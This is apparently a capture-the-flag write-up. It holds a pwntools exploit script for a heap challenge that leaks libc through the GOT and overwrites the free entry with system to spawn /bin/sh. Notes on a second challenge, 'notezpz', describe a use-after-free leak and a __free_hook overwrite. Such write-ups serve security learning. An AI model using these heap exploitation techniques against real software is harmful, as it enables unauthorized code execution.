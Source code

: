 ```
# also the function pointer is removed
# but now there is a heap overflow of 0x60 bytes in set_question()

create(0)
create(1)
create(2)
create(3)
set(0, gen_addr_payload(elf.got['fgets']))
fgets_addr = u32(ask(1)[:4])
print(hex(fgets_addr))

'''
identifying libc
puts is at offset b40
fgets is at fb0

according to libc.nullbyte.cat, the libc version is libc6_2.27-3ubuntu1_i386
'''

# calculate libc base and /bin/sh address
libc_base = fgets_addr - libc.symbols['fgets']
libc.address = libc_base
binsh_addr = next(libc.search(b'/bin/sh'))

# overwrite q3's string pointer with /bin/sh pointer
set(2, gen_addr_payload(binsh_addr))
# overwrite q1's string pointer with the free's GOT address
set(0, gen_addr_payload(elf.got['free']))
# write to q1, overwriting the free GOT entry with the system libc address
# there's a trailing \n which breaks the following GOT entries after free,
# so we preserve them
set(1, p32(libc.symbols['system'])
	  +p32(libc.symbols['getchar'])
	  +p32(libc.symbols['fgets']))

# q3's string is now /bin/sh, so this will execute system("/bin/sh")
free(3)

p.interactive()
```

notezpz
===========================
Flag: FLAG{}

General overview of problems faced
-------------------------------------
There were a few challenges I faced for this one:
 - Leaking: With PIE enabled and return of the print_question function pointer, leaking data became more delicate. I couldn't go trigger happy with the heap overflow else I would overwrite the function pointer and not be able to read anything. Eventually I realised that instead of trying to leak the function pointer, I can first leak a heap address (due to UAF) from the fwd pointer of free chunks. After that I can control the fwd pointer so I can then read from a chunk that has the function pointer rather than just the chunks used to store strings. Once I had the function pointer I could go trigger happy with the heap overflows and leak whatever I wanted (like libc address).
 - Popping a shell: No win function. full RELRO stopping me from writing to the GOT. My first idea was to overwrite the "free_hook" with a one gadget. Unfortunately I couldn't ever get a working one gadget. Not sure if that was intentional or I was just doing something wrong. Then I remembered that there was still a function pointer. So instead I could overwrite the "free_hook" with system(). Then I free a question which contains a /bin/sh string (which I create onto the heap) and the pointer to the string later gets passed to system, giving me the shell. And it worked.
